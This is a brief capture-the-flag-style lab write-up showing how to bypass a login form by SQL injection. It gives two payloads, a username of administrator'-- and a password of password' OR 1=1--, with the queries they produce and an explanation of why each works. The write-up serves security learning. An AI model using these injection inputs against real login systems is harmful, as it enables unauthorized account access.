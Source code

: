 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 2
---
```


![1](https://github.com/Knign/Write-ups/assets/110326359/3d55e63d-dcdb-4972-b78e-fd7d1644b826)

Let's login using the following credentials:


| Username | Password |
| -------- | -------- |
| test         | test         |

The resultant SQL query will be:

```sql
SELECT username FROM users WHERE username = 'test' AND password = 'test'
```

This will obviously not log us in as the administrator.

## Method 1

We can next try the following credentials:

| Username | Password |
| -------- | -------- |
| administrator'--         | password         |

The resultant SQL query will be:

```sql
SELECT username FROM users WHERE username = 'administrator'--' AND passsword = 'password'
```

Since we are commenting out the WHERE clause that requires the password, we will be logged in even if the password is not `password`.

## Method 2

We can next try the following credentials:

| Username | Password |
| -------- | -------- |
| administrator         | password' OR 1=1--         |

The resultant SQL query will be:

```sql
SELECT username FROM users WHERE username = 'administrator' AND passsword = 'password' OR 1=1--'
```

Since the result of 1=1 is always `true/1` and anything OR with 1 is 1, the query will always be executed even if the password isn't `password`.

![6](https://github.com/Knign/Write-ups/assets/110326359/bb092920-9e71-4bec-9962-4be51d367861)

We have solved the lab.

![7](https://github.com/Knign/Write-ups/assets/110326359/a3977cd1-0bef-49e6-bc77-8806b451594c)
